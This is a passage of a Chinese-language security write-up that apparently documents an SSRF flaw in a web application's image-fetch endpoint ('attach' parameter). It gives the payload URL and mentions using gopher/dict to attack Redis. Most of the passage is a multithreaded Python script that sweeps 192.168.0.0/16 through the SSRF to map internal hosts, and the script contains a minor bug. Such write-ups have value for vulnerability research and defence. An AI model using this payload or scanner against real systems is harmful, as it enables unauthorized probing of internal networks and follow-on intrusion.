 ```php
http://host/web/index.php?c=utility&a=wxcode&do=image&attach=http://127.0.1.13:80/
```

**效果:**

![image-20200625105641759](https://shs3.b.qianxin.com/butian_public/f97778a1a575533a50eca7b4979db2565.jpg)

可以用来探测服务，gopher、dict批量打redis等等

当时写的探测脚本:

```python3

#!/usr/bin/python3
# -*- coding:utf-8 -*-

import requests
import time
import threading, queue

# res = requests.get('target/web/index.php?c=utility&a=wxcode&do=image&attach=http://127.0.0.1:80/')
# print(res
# .content)
# 
myQueue = queue.Queue()
Lock = threading.Lock()
okList = []

def produce():
    for i in range(1,255):
        for j in range(1,254):
            ip =  '192.168.{a}.{b}'.format(a=i, b=j)
            # print("try ip:{ip}".format(ip=ip))
            url = 'http://target/web/index.php?c=utility&a=wxcode&do=image&attach=http://{ip}:80/'.format(ip=ip)
            myQueue.put(url)
    print("Load target Done!!!")

def work():
    while True:
        try:
            url = myQueue.get()
        except:
            if myQueue.empty():
                break
        print("try: {u}".format(u=url))
        try:
            res = requests.get(url, timeout=2)
            if res.status_code == 200:
                Lock.acquire()
                print("ok ip: {ip}".format(ip=ip))
                okList.append(ip)
                Lock.release()
        except Exception as e:
            print("[worker] error,e:{e}".format(e=e))

def main():
    produce()
    threadingNum = 50
    myThread = []
    for i in range(threadingNum):
        t = threading.Thread(target=work)
        myThread.append(t)
        t.start()
```